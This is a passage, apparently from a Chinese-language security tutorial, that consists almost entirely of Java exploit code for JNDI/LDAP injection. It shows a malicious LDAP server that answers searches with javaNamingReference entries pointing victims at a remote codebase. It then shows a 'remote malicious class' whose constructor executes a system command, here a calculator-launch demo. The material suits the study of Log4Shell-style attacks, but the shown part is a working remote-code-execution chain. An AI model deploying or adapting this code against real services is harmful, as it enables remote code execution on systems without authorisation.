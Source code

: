   ```java
          }
   
          @Override
          public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
              String base = result.getRequest().getBaseDN();
              Entry e = new Entry(base);
              try {
                	// 发送包含恶意Java类引用的搜索结果
                  sendResult(result, base, e);
              }
              catch ( Exception e1 ) {
                  e1.printStackTrace();
              }
          }
   				// 构造并发送包含恶意代码引用的LDAP搜索结果
          protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
              URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
              System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
              e.addAttribute("javaClassName", "foo");
              String cbstring = this.codebase.toString();
              int refPos = cbstring.indexOf('#');
              if ( refPos > 0 ) {
                  cbstring = cbstring.substring(0, refPos);
              }
              e.addAttribute("javaCodeBase", cbstring);
              e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
              e.addAttribute("javaFactory", this.codebase.getRef());
              result.sendSearchEntry(e);
              result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
          }
      }
  }	
  ```

**远程恶意类**

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

// 定义一个名为EXP的类，它实现了ObjectFactory接口
public class EXP implements ObjectFactory {
    public EXP() throws Exception{
        try {
          	// 当实例化EXP类时，尝试执行系统命令，本例子是打开系统的计算器应用
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
 		
  	// 在JNDI查找中，此方法用于创建对象实例
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        // 方法不执行任何操作，直接返回null
        // 在实际的攻击场景中，这里可以包含更复杂的逻辑
        return null;
```